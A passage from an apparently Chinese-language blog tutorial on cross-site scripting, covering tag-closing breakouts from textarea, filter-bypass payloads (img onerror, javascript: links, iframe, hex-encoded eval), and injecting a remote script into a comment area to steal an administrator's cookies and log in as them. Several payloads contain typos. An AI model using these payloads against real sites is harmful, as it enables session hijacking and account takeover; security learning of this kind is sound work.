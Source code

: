 别以为就这样结束了，还有一类环境不能用上述的方法，

那就是如果在`<textarea>`标签里呢？！或者其他优先级比script高的呢？

就下面这样

![](/images/principle-analysis-and-anatomy-of-xss/16.png)

这时我们该怎么办呢？既然前面都说了闭合属性和闭合标签了，那能不能闭合完整的标签呢，答案是肯定的。我们可以输入`</textarea><script>alert('xss')</script>`就可以实现弹窗了。

## 0×04 过滤的解决办法:

假如说网站禁止过滤了script 这时该怎么办呢，记住一句话，这是我总结出来的“xss就是在页面执行你想要的js”不用管那么多，只要能运行我们的js就OK，比如用img标签或者a标签。我们可以这样写

```html
<img scr=1 onerror=alert('xss')> 当找不到图片名为1的文件时，执行alert('xss')
<a href=javascrip:alert('xss')>s</a> 点击s时运行alert('xss')
<iframe src=javascript:alert('xss');height=0 width=0 /><iframe> 利用iframe的scr来弹窗
<img src="1" onerror=eval("\x61\x6c\x65\x72\x74\x28\x27\x78\x73\x73\x27\x29")></img> 过滤了alert来执行弹窗
```

等等有很多的方法，不要把思想总局限于一种上面，记住一句话“xss就是在页面执行你想要的js”其他的管他去。(当然有的时候还要管他…)

## 0×05 xss的利用:

说了那么多，大家可能都以为xss就是弹窗，其实错了，弹窗只是测试xss的存在性和使用性。

这时我们要插入js代码了，怎么插呢？

你可以这样

```html
<script scr="js_url"></script>
```

也可以这样
```html
<img src=x onerror=appendChild(createElement('script')).src='js_url' />
```

各种姿势，各种插，只要鞥运行我们的js就OK。那运行我们的js有什么用呢？

Js可以干很多的事，可以获取cookies(对http-only没用)、控制用户的动作(发帖、私信什么的)等等。

比如我们在网站的留言区输入`<script scr="js_url"></script>`当管理员进后台浏览留言的时候，就会触发，然后管理员的cookies和后台地址还有管理员浏览器版本等等你都可以获取到了，再用“桂林老兵cookie欺骗工具”来更改你的cookies，就可以不用输入账号 密码 验证码 就可以以管理员的方式来进行登录了。

至于不会js的怎么写js代码呢，放心网上有很多xss平台，百度一下就可以看到了。页面是傻瓜式的操作，这里就不再过多的说明了。
